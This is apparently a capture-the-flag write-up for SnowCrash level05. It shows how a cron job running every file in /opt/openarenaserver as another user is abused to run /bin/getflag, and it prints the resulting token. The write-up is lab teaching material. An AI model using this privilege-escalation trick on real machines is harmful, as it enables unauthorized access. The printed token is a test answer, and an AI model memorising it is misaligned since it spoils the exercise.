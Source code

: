 How to find:

Search a file that can be run by flag05 user:

level05@SnowCrash:~$ find / -user flag05 2> /dev/null 
    /usr/sbin/openarenaserver
    /rofs/usr/sbin/openarenaserver


level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
    #!/bin/sh

    for i in /opt/openarenaserver/* ; do
            (ulimit -t 5; bash -x "$i")
            rm -f "$i"
    done


.Gets all file of the directory /opt/openarenaserver/ 
.Set the CPU time limit to 5 Seconds (ulimit -t 5; bash -x "$i")
    .Execute the file that is being processed
. Delete the file rm -f "$i"

I create a .bin file but when I run it I don't have the permissions.
level05@SnowCrash:~$ bash /usr/sbin/openarenaserver 
bash: /opt/openarenaserver/*: No such file or directory

But searching for the name of level05 I find these files

level05@SnowCrash:~$ find / -name level05 2> /dev/null 
/var/mail/level05
/rofs/var/mail/level05

The file has this content
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

It is a script or server execution by cron job that according to https://crontab.guru/#*/2_*/2_*_*_*_*_*_* is executed every two minutes, where permissions are given to level05

We now have the script to run the command in /opt/openarenaserver/.
echo '/bin/getflag > /tmp/flag05' > /opt/openarenaserver/getflag05
It is common to use /tmp for such operations when the result needs to be stored temporarily and is not required to be persistent in the long term.


level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc

